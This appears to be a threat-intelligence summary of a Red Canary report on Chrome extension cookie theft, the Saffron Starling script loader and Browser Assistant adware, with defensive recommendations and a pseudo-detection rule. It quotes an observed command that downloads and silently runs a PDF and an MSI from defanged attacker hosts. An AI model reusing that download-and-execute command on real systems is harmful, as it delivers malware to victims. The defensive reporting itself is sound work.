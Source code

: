 ### Technical Details

*   **Infrared Ibis:** This threat involves compromised Chrome extensions containing malicious code to steal cookies. The compromise dates back to May 2024.[ Cyberhaven disclosed a compromise of version 24.10.4 of their Chrome extension in December 2024](https://github.com/cr-RuslanRustchev/The-Feed/blob/main/summaries/The%20Feed%202025-01-28.md).
*   **Saffron Starling:** This threat involves a multi-stage attack:
    *   It starts with a **.zip archive containing a script file** (.vbs or .js).
    *   **Windows Scripting Host (wscript.exe) executes the script**.
    *   The script, typically obfuscated, launches cmd.exe or PowerShell to download the next-stage payload from a remote resource.
    *   Observed payloads include Danabot, DarkGate, and Matanbuchus.
    *   **Observed Commands:**
        *   `"C:\Windows\System32\cmd.exe" /c cd /d "C:\Users\user\AppData\Local\Temp\" & copy c:\windows\system32\curl.exe TNheBOJElq.exe & TNheBOJElq.exe -o "C:\Users\user\Documents\QMQjaBdqIo.pdf" hxxps://bologna.sunproject[.]dev/download/pdf & "C:\Users\user\Documents\QMQjaBdqIo.pdf" & TNheBOJElq.exe -o bLhLldebqq.msi hxxps://rome.sunproject[.]dev/download/agent & C:\Windows\System32\msiexec.exe /i bLhLldebqq.msi /qn`
        *   The command above uses `cmd.exe` to change the directory, copy `curl.exe`, download a PDF and an MSI file, and then execute them.
*   **ChromeLoader/Browser Assistant:** Red Canary has reassessed activity previously tracked as ChromeLoader and now attributes it to a variation of Browser Assistant. This activity involves adware that masquerades as a PDF-themed download and installs itself in suspiciously named directories. While it’s considered to be “just” adware, the 2024 activity has several distinct differences when compared to traditional Browser Assistant:

    - It attempts to masquerade as a PDF-themed download
    - It installs itself in suspiciously named directories
    - Occasionally it has a signing certificate that is registered to a different organization than the traditional “Realistic Media”

### Recommendations

*   The report highlights the **importance of tracking loaders like Saffron Starling separately from their payloads** to monitor activity even without payload execution and to improve detection coverage.
*   The report recommends investigating further when detecting script launching PowerShell to download and execute a payload. Child processes and file modifications to suspicious directories can indicate successful payload execution.

### Hunting methods

*   **Saffron Starling Detection:** The report provides a pseudo-detection analytic to identify wscript, cscript, or mshta launching PowerShell to download and execute a payload:

```
parent_process == (wscript.exe, cscript.exe, mshta.exe)

&&

process == (cmd.exe, powershell.exe)

&&

command_includes (“invoke_webrequest”)
```
